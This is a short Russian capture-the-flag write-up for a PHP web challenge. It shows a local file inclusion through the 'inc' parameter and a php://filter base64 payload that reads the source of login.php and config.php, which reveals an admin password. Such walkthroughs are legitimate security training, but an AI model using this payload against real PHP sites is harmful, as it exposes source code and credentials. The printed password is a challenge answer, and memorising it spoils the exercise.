


# PHP filters

25 Points
FileManager v 0.01

У нас есть форма. А также есть параметр inc. Поиграемся с ним.



Вывод позволяет нам сделать предположение, что здесь используются PHP-фильтры. Воспользуемся php-фильтром по преобразованию файла в base64:

```
php://filter/convert.base64-encode/resource=login.php
```



Раскодируем.

```php
<?php
include("config.php");

if ( isset($_POST["username"]) && isset($_POST["password"]) ){
    if ($_POST["username"]==$username && $_POST["password"]==$password){
      print("<h2>Welcome back !</h2>");
      print("To validate the challenge use this password<br/><br/>");
    } else {
      print("<h3>Error : no such user/password</h2><br />");
    }
} else {
?>

<form action="" method="post">
  Login&nbsp;<br/>
  <input type="text" name="username" /><br/><br/>
  Password&nbsp;<br/>
  <input type="password" name="password" /><br/><br/>
  <br/><br/>
  <input type="submit" value="connect" /><br/><br/>
</form>

<?php } ?>
```
Нам нужен config.php. Его исходный код получим также через php-фильтр
```php
<?php

$username="admin";
$password="DAPt9D2mky0APAF";

?>
```